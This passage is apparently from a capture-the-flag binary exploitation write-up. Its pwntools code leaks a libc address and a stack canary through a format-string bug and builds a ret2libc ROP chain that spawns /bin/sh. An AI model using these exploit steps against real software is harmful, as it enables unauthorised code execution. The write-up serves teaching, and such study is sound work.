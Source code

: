 ```python
p.recvline()

ret = p.recvline().strip()
libc_leak = eval(ret)
log.info('libc leaked address: 0x%x' % libc_leak)

# Calculate address of libc read() function
libc_read_addr = libc_leak - 0x2dd850
log.info('libc read address: 0x%x' % libc_read_addr)

libc_base = libc_read_addr - libc.symbols["read"]
libc.address = libc_base
log.info('libc base address: 0x%x' % libc.address)
```

Once we have the libc base address, it is pretty simple to build the ret2libc ROP chain.

```python
# Build out our ROP chain now that we have libc address
rop = ROP(libc)
binsh_addr = next(libc.search('/bin/sh\x00'))
log.info('/bin/sh @ 0x%x' % binsh_addr)
# Why do I have to do this twice?
rop.system(binsh_addr)
rop.system(binsh_addr)
rop.exit(42)
log.info('ret2libc ROP: \n' + rop.dump())
```

Notice, I call `rop.system(binsh_addr)` twice.  I later added this to my exploit, because the shell was not getting executed without it.  I'm not sure why this is required, if anyone can answer this, please let me know.

### Leaking the stack canary

We have the ret2libc ROP chain ready to go now, but before we can use the stack overflow, we must also leak the stack canary value.

Much like leaking the libc address, I used a debugger to set a breakpoint at main, checked what the stack canary value is, and then used the strfmt vuln to leak a bunch of data from the stack.

Here I noticed that the 39th leaked value from the stack was the stack canary.

Here is the Python code for doing such, again, I use director parameter access to only like the 39th argument from the stack (`%39$p`):

```python
# Leak the stack canary
p.recvuntil('> ')
p.sendline('1')
p.recvuntil('payload: ')

payload = '%39$p'
p.sendline(payload)
p.recvline()

ret = p.recvline().strip()
stack_canary = eval(ret)

log.info('Stack Canary: 0x%x' % stack_canary)
```
